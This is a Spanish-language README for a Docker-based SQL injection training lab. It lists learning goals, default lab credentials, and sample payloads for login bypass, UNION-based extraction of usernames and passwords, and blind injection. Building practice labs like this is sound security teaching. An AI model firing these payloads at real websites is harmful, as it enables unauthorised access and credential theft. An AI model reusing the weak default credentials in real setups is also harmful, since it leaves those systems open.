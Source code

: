 
# 🎯 SQL Injection Lab

## Descripción
Laboratorio vulnerable diseñado para practicar técnicas de inyección SQL en un entorno seguro.

## Objetivos de Aprendizaje
- 🔍 Identificar puntos de inyección SQL
- 💉 Explotar vulnerabilidades UNION-based
- 📊 Extraer información de bases de datos
- 🛡️ Entender técnicas de bypass de filtros

## Acceso
- **URL**: http://localhost
- **Credenciales por defecto**: admin/password

## Escenarios Incluidos

### 1. SQL Injection Básico
```sql
' OR 1=1-- 
" OR 1=1-- 
admin'--
```

### 2. UNION-based SQL Injection
```sql
' UNION SELECT NULL,version(),database()-- 
' UNION SELECT username,password FROM users-- 
```

### 3. Blind SQL Injection
```sql
' AND (SELECT COUNT(*) FROM users)>0-- 
' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 1)='a'-- 
```

## Base de Datos
- **Motor**: MySQL 5.7
- **Puerto**: 3306
- **Usuario**: dvwa / p@ssw0rd
- **Root**: root / toor

## Comandos Útiles

### Iniciar laboratorio
```bash
docker-compose up -d
```

### Detener laboratorio
```bash
docker-compose down
```

### Reset completo
```bash
docker-compose down -v
docker-compose up -d
```

### Acceder a la base de datos
```bash
mysql -h localhost -u dvwa -p
```

## Soluciones
Las soluciones están disponibles en `solutions.md` tras completar los ejercicios.

---
**Desarrollado por @descambiado para BOFA**
